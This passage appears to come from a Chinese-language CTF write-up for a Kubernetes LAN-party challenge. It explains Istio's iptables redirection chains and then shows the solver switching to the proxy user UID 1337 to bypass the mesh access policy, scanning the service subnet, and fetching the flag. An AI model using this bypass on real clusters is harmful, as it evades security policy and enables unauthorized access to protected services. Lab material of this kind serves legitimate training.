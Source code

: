     这是 Istio 中最关键的 iptables 链,包含以下规则:
    
    1. 允许来自 Envoy 代理的本地流量 (源IP 127.0.0.6) 直接返回,不经过重定向。[4]
    
    2. 将目的地不是 localhost 且来自 UID 1337 (Envoy 代理)的流量重定向到 ISTIO_IN_REDIRECT 链。[4]
    
    3. 允许目的地是 localhost 且不来自 UID 1337 的流量直接返回。[4]
    
    4. 允许来自 UID 1337 的流量直接返回,不重定向。[4]
    
    5. 将目的地不是 localhost 且来自 GID 1337 的流量重定向到 ISTIO_IN_REDIRECT 链。[4]
    
    6. 允许目的地是 localhost 且不来自 GID 1337 的流量直接返回。[4]  
    
    7. 允许来自 GID 1337 的流量直接返回,不重定向。[4]
    
    8. 允许目的地是 localhost 的流量直接返回。[4]
    
    9. 将所有其他流量重定向到 ISTIO_REDIRECT 链。[4]
    
    ## ISTIO_REDIRECT 链
    
    将流量重定向到 Envoy 代理的出站端口 15001。[4]
    
    ## ISTIO_IN_REDIRECT 链  
    
    将流量重定向到 Envoy 代理的入站端口 15006。[1][2]
    
    这些 iptables 规则确保所有进出 pod 的流量都经过 Envoy 代理处理,实现了 Istio 的流量管理、安全控制等功能。规则中的 UID 1337 和 GID 1337 用于区分代理和应用程序流量。[4]
    
    Citations:
    [1] https://jimmysong.io/en/blog/istio-sidecar-traffic-types/
    [2] https://tetrate.io/blog/traffic-types-and-iptables-rules-in-istio-sidecar-explained/
    [3] https://stackoverflow.com/questions/67223438/why-iptables-rule-setup-in-initcontainer-istio-init-works-in-application-conta
    [4] https://github.com/istio/istio/wiki/Understanding-IPTables-snapshot
    [5] https://istio.io/latest/docs/ops/best-practices/security/
    

### 限制绕过

上面资料可以得知， `uid/gid` 为 `1337` 的用户拥有特殊权限，可以通过切换到该用户绕过访问策略

    root@wiz-k8s-lan-party:~# cat /etc/passwd | grep 1337
    istio:x:1337:1337::/home/istio:/bin/sh
    root@wiz-k8s-lan-party:~# su istio
    $ dnscan -subnet 10.100.*.*
    57310 / 65536 [---------------------------------------------------------------------------------------------------------->_______________] 87.45% 962 p/s10.100.224.159 istio-protected-pod-service.k8s-lan-party.svc.cluster.local.
    65376 / 65536 [------------------------------------------------------------------------------------------------------------------------->] 99.76% 961 p/s10.100.224.159 -> istio-protected-pod-service.k8s-lan-party.svc.cluster.local.
    $ curl istio-protected-pod-service.k8s-lan-party.svc.cluster.local
    wiz_k8s_lan_party{only-leet-hex0rs-can-play-both-k8s-and-linux}
    $
    